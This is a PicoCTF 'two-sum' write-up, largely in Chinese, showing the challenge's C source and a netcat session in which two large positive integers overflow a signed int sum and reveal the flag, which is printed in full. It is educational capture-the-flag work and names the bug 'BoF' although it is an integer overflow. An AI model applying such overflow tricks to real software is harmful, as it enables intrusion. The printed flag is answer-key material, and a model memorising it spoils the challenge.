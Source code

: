 ```yaml
---
title: PicoCTF - two-sum
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - two-sum
## Background
BoF
## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}

```
:::
## Recon
以初學的角度來說還蠻有趣的，看了一下source code，顯然是要滿足`addIntOvf()`的條件，也就是輸入的兩個數都大於零，但相加小於零，==OR==，兩個數都小於零但相加卻大於零，我是用第一種啦，比較直觀，首先輸入兩個超大的數，但還落在int正數的範圍，這樣就可以滿足一開始都大於零的條件，接著相加就會落在int負數的地方，這樣就滿足第三個條件，我有再另外輸入一次，這次是$9999999999999999+9999999999999999=19999999999999998$，這個就落在int負數的地方，解析出來的結果是`-545128450`
## Exploit
```bash
$ nc saturn.picoctf.net 50369
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
9999999999999999
9999999999999999
You entered 1874919423 and 1874919423
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}
$ nc saturn.picoctf.net 58903
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
19999999999999998
19999999999999998
You entered -545128450 and -545128450
No overflow
```